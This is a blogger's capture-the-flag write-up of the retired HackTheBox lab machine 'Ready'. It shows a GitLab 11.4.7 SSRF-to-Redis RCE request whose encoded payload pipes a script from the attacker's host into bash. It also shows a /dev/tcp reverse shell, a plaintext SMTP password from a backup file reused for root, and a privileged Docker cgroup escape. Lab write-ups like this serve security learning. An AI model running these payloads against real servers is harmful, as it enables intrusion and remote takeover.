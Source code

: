 Title:HTB: Ready
Date: 05-16-2020 09:50
category:security
tags:security, boot2root, HTB, gitlab, docker
meta:security, boot2root, HTB, gitlab, docker

<img class="align-left" src="/media/2021.05/ready_card.png" alt="Ready card" width="262">

This is a writeup about a retired HacktheBox machine:
[Ready](https://www.hackthebox.eu/home/machines/profile/304) published on
December 12 2020 by
[bertolis](https://www.hackthebox.eu/home/users/profile/27897)
This box is classified as a medium machine. This box implies an outdated gitlab
server, a clear text password in a backup file and a docker container.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only port 22 (SSH) and port 5080 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Sun Dec 13 03:40:16 2020 as: nmap -p- -sSV -oN nmap 10.129.29.192
    Nmap scan report for 10.129.29.192
    Host is up (0.014s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    5080/tcp open  http    nginx
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Dec 13 03:40:48 2020 -- 1 IP address (1 host up) scanned in 31.28 seconds

## Web

The HTTP service is once again a gitlab (my latest rooted box is laboratory TODO
link if already published) server. This time the version is 11.4.7. A Google
research "gitlab 11.4.7 exploit" lead us to a
[blog article about an RCE on gitlab during a CTF](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

Following the blog exploitation we end up with a request looking like the
following and can validate the RCE using a python server on our kalibox.

    :::text
    POST /projects HTTP/1.1
    Host: 10.129.29.192:5080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.129.29.192:5080/projects/new
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 1073
    Origin: http://10.129.29.192:5080
    Connection: close
    Cookie: _gitlab_session=140270c33fe803d8ab11d0f9a85c45cf; sidebar_collapsed=false
    Upgrade-Insecure-Requests: 1

    utf8=%E2%9C%93&authenticity_token=%2BEHyUYosjkfZlzfMEpR8QFZ%2BWiJMAQQ%2BTiB3Wt%2FNK0fNBNX9EhAKd6VM6okCvVQ0fZ6HxSBzQdo%2Fx4Lfe4nDCw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7C%63%75%72%6c%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%31%38%3a%38%30%30%30%2f%72%65%76%32%2e%73%68%20%7c%20%62%61%73%68%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=&project%5Bnamespace_id%5D=6&project%5Bpath%5D=ttreqqq139&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0

We can even just manually import a git project using the following "git url":
`git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cxxxxxxxxx%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git` and replacing the payload `xxxxxxxxxxx` with our own URL encoded.

We send the following payload `curl http://10.10.14.18:8000/rev2.sh | bash`.

The content of rev2.sh is the following:

    :::bash
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.18/4443 0>&1

We run a netcat listener to catch our reverse shell. We end up with a shell as
`git` that can read the user flag.

    :::text
    kali@kali:~$ nc -l -p 4443
    bash: cannot set terminal process group (485): Inappropriate ioctl for device
    bash: no job control in this shell
    git@gitlab:~/gitlab-rails/working$ id
    id
    uid=998(git) gid=998(git) groups=998(git)
    git@gitlab:/$ find / -name 'user.txt' 2>/dev/null
    find / -name 'user.txt' 2>/dev/null
    /home/dude/user.txt
    git@gitlab:/$ cat /home/dude/user.txt
    cat /home/dude/user.txt
    e1e30b052b6ec0670698805d745e7682

# Root

## Enumeration

We enumerate a few file and find the `/opt/backup/` directory which contain a few
files. The file `gitlab.rb` contain a smtp password.

    :::text
    git@gitlab:/opt/backup$ grep -i pass gitlab.rb
    grep -i pass gitlab.rb
    #### Email account password
    # gitlab_rails['incoming_email_password'] = "[REDACTED]"
    #     password: '_the_password_of_the_bind_user'
    #     password: '_the_password_of_the_bind_user'
    #   '/users/password',
    #### Change the initial default admin password and shared runner registration tokens.
    # gitlab_rails['initial_root_password'] = "password"
    # gitlab_rails['db_password'] = nil
    # gitlab_rails['redis_password'] = nil
        gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
    # gitlab_shell['http_settings'] = { user: 'username', password: 'password', ca_file: '/etc/ssl/cert.pem', ca_path: '/etc/pki/tls/certs', self_signed_cert: false}
    ##! `SQL_USER_PASSWORD_HASH` can be generated using the command `gitlab-ctl pg-password-md5 gitlab`
    # postgresql['sql_user_password'] = 'SQL_USER_PASSWORD_HASH'
    # postgresql['sql_replication_password'] = "md5 hash of postgresql password" # You can generate with `gitlab-ctl pg-password-md5 <dbuser>`
    # redis['password'] = 'redis-password-goes-here'
    ####! **Master password should have the same value defined in
    ####!   redis['password'] to enable the instance to transition to/from
    # redis['master_password'] = 'redis-password-goes-here'
    # geo_secondary['db_password'] = nil
    # geo_postgresql['pgbouncer_user_password'] = nil
    #     password: PASSWORD
    ###! generate this with `echo -n '$password + $username' | md5sum`
    # pgbouncer['auth_query'] = 'SELECT username, password FROM public.pg_shadow_lookup($1)'
    #     password: MD5_PASSWORD_HASH
    # postgresql['pgbouncer_user_password'] = nil

We need an interactive shell to be able to input a password, we use python for
that purpose and end up with a shell as root.

    :::text
    git@gitlab:~/gitlab-rails/working$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    <orking$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    git@gitlab:~/gitlab-rails/working$ su
    su
    Password: wW59U!ZKMbG9+*#h

    root@gitlab:/var/opt/gitlab/gitlab-rails/working# id
    id
    uid=0(root) gid=0(root) groups=0(root)

Nonetheless we cannot find any `root.txt` file. As you probably already guess or
notice we are in a docker container.

## Docker escape

We run [deepce](https://github.com/stealthcopter/deepce): Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
We use a python server on our kalibox to transfer the script using `wget --recursive --no-parent http://10.10.14.18:8000`.
And we run it.

    :::text
    <SNIP>
    [+] Privileged Mode ......... Yes
    The container appears to be running in privilege mode, we should be able to access the
    raw disks and mount the hosts root partition in order to gain code execution.
    See https://stealthcopter.github.io/deepce/guides/docker-privileged.md
    <SNIP>

An other quick Google research allow us to find a [medium article](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1)
to learn more about docker's privilege mode with a few command line to execute a
command on the system. We just replace the `echo "ps aux > $host_path/output" >> /cmd` line
with `echo "cat /root/root.txt > $host_path/output" >> /cmd` and grab the root
hash.

    :::text
    <SNIP>
    root@gitlab:/tmp/.plop# echo "cat /root/root.txt > $host_path/output" >> /cmd
    echo "cat /root/root.txt > $host_path/output" >> /cmd
    root@gitlab:/tmp/.plop# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    root@gitlab:/tmp/.plop# cat /output
    cat /output
    b7f98681505cd39066f67147b103c2b3

# Wrapping up

The box is not that hard (less than laboratory [TODO LINK]) and quit interesting
as the exploitation of the gitlab's SSRF and its upgrade to an RCE was really
interesting and detailed on the blog article.

